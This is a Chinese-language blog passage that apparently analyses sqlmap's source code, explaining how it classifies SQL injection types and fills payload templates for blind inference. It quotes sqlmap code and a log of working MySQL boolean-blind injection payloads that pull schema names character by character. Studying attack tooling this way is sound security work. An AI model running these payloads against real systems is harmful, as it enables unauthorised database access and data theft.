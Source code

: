 sqlmap 将不同类型sql注入分为两类，根据不同的类型调用的方式也不同：

1. 回显类型（报错注入，内联注入和union注入），直接提取响应页面中内容即可。
2. 盲注类型（时间盲注和布尔盲注），该类型根据页面的返回结果只能得到 `True/False` 两种结果，因此如果需要获取内容需要通过`ord`等函数进行大量的数据包推测。

#### 回显类型

直接替换模板中的`[QUERY]`标签即可，匹配时通过分割符`DELIMITER_START`,`[DELIMITER_STOP]`即可进行定位。

#### 盲注类型

该类型获取内容的方式分为两种：

1. 只需要获取`True/False`结果即可（[_goBooleanProxy函数](https://notes.surfrid3r.top/2023/02/12/sqlmap%E6%A0%B8%E5%BF%83%E5%87%BD%E6%95%B0%E5%88%86%E6%9E%90/#go-boolean-proxy)），这种也非常方便。替换掉`[INFERENCE]`标签为查询语句即可，时间盲注则判断响应时间；布尔盲注则判断页面相似度。

   ```python
   # 获取vector模板
   vector = getTechniqueData().vector
   # 手动把[INFRENECE]替换，不使用XML中的[INFERENCE]语句
   vector = vector.replace(INFERENCE_MARKER, expression)
   query = agent.prefixQuery(vector)
   query = agent.suffixQuery(query)
   # 生成payload
   payload = agent.payload(newValue=query)
   # 是否时间盲注
   timeBasedCompare = getTechnique() in (PAYLOAD.TECHNIQUE.TIME, PAYLOAD.TECHNIQUE.STACKED)
   # 想target发送请求，判断相似度或者时间
   if output is None:
   	output = Request.queryPage(payload, timeBasedCompare=timeBasedCompare, raise404=False)
   ```

   

2. 如果要获取内容([_goInferenceProxy函数](https://notes.surfrid3r.top/2023/02/12/sqlmap%E6%A0%B8%E5%BF%83%E5%87%BD%E6%95%B0%E5%88%86%E6%9E%90/#go-inference-proxy)),则比较麻烦。需要替换掉`[INFERENCE]`标签为`queries.xml`中`INFRENCE`对应的语句，并且不断的通过二分法进行缩小范围测试.

   ```python
   # prefixQuery中替换[INFERENCE]的是xml字段中的inference标签
   # ORD(MID((%s),%d,1))>%d
   query = agent.prefixQuery(getTechniqueData().vector)
   query = agent.suffixQuery(query)
   payload = agent.payload(newValue=query)
   ```

   以 mysql 为例，简述步骤：

   1. 盲注需要获取的 payload 为 `SELECT DISTINCT(IFNULL(CAST(schema_name AS NCHAR)`
   2. inference 标签对于的模板为 `ORD(MID((%s),%d,1))>%d`：
   	-  `%s` 替换为 payload
   	- 剩余的两个 `%d` 为测试字符的 index 和推测的字符
   3. 最后逐个测试的过程如下：

      ```bash
      [20:18:46] [PAYLOAD] 1' AND ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS NCHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1),1,1))>64 AND 'ckmO'='ckmO
      [20:18:47] [PAYLOAD] 1' AND ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS NCHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1),1,1))>96 AND 'ckmO'='ckmO
      [20:18:47] [PAYLOAD] 1' AND ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS NCHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1),1,1))>112 AND 'ckmO'='ckmO
      [20:18:47] [PAYLOAD] 1' AND ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS NCHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1),1,1))>104 AND 'ckmO'='ckmO
      ```
